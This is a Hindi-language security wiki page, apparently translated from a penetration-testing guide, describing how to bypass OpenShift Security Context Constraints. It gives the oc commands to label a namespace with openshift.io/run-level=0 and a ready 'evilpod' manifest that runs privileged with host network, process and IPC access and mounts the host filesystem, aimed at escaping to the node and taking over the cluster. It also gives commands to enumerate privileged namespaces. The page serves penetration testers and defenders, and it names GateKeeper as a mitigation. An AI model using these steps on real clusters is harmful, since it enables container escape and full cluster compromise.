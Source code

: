 # Openshift - SCC बायपास

**इस पेज के मूल लेखक हैं** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## विशेषाधिकारित नेमस्पेस

डिफ़ॉल्ट रूप से, SCC निम्नलिखित परियोजनाओं पर लागू नहीं होता है:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

यदि आप इनमें से किसी नेमस्पेस में पॉड डिप्लॉय करते हैं, तो कोई SCC प्रवर्तित नहीं किया जाएगा, जिससे विशेषाधिकृत पॉड डिप्लॉय किया जा सकता है या होस्ट फ़ाइल सिस्टम को माउंट किया जा सकता है।

## नेमस्पेस लेबल

RedHat दस्तावेज़ के अनुसार, आपके पॉड पर SCC एप्लिकेशन को अक्षम करने का एक तरीका है। आपके पास निम्नलिखित अनुमति में से कम से कम एक होनी चाहिए:

* एक नेमस्पेस बनाएं और इस नेमस्पेस पर एक पॉड बनाएं
* एक नेमस्पेस संपादित करें और इस नेमस्पेस पर एक पॉड बनाएं
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
विशिष्ट लेबल `openshift.io/run-level` उपयोगकर्ताओं को एप्लिकेशन के लिए SCCs को दायर करने की सुविधा प्रदान करता है। RedHat दस्तावेज़ के अनुसार, जब यह लेबल उपयोग किया जाता है, तो उस नेमस्पेस में सभी पॉड पर कोई SCC लागू नहीं होता, जिससे कि किसी भी प्रतिबंधों को हटा दिया जाता है।

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## लेबल जोड़ें

अपने नेमस्पेस में लेबल जोड़ने के लिए:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
एक नेमस्पेस लेबल के साथ एक YAML फ़ाइल के माध्यम से बनाने के लिए:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
अब, नेमस्पेस पर बनाए गए सभी नए पॉड्स के पास कोई SCC नहीं होना चाहिए

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC की अनुपस्थिति में, आपके पॉड परिभाषण पर कोई प्रतिबंध नहीं होता। इसका मतलब है कि एक हानिकारक पॉड आसानी से होस्ट सिस्टम पर भाग निकल सकता है।
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
अब, यह उन्नतियों को उच्चतम स्तर पर उन्नत करना आसान हो गया है ताकि मेज़बान सिस्टम तक पहुंचने और उसके बाद पूरे क्लस्टर को नियंत्रित करने, 'क्लस्टर-व्यवस्थापक' विशेषाधिकार प्राप्त करने में सहायक हो। निम्नलिखित पृष्ठ में **नोड-पोस्ट एक्सप्लोइटेशन** भाग देखें:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### कस्टम लेबल

इसके अतिरिक्त, लक्षित सेटअप के आधार पर, कुछ कस्टम लेबल / एनोटेशन पिछले हमले के स्थिति के तरीके से उपयोग किया जा सकता है। यद्यपि यह उसके लिए नहीं बनाया गया है, तो लेबल को अनुमतियाँ देने, प्रतिबंधित करने या किसी विशेष संसाधन को न करने के लिए उपयोग किया जा सकता है।

यदि आप कुछ संसाधन पढ़ सकते हैं तो कस्टम लेबल खोजने का प्रयास करें। यहाँ कुछ दिलचस्प संसाधनों की सूची है:

* पॉड
* डिप्लॉयमेंट
* नेमस्पेस
* सेवा
* रूट
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## सभी विशेषाधिकार वाले नेमस्पेस की सूची
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## उन्नत उत्पीड़न

OpenShift में, जैसा पहले प्रदर्शित किया गया, `openshift.io/run-level` लेबल वाले नेमस्पेस में पॉड डिप्लॉय करने की अनुमति होने से क्लस्टर का सीधा अधिकार लेना संभव है। क्लस्टर सेटिंग्स के दृष्टिकोण से, यह कार्यक्षमता **अक्षम की जा सकती है**, क्योंकि यह OpenShift के डिज़ाइन में निहित है।

हालांकि, **Open Policy Agent GateKeeper** जैसी सुरक्षा उपाय उपयोगकर्ताओं को इस लेबल को सेट करने से रोक सकती है।

GateKeeper के नियमों को अनदेखा करने और इस लेबल को सेट करने के लिए क्लस्टर अधिकार लेने के लिए, **हमलावरों को वैकल्पिक तरीके पहचानने की आवश्यकता होगी।**

## संदर्भ

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
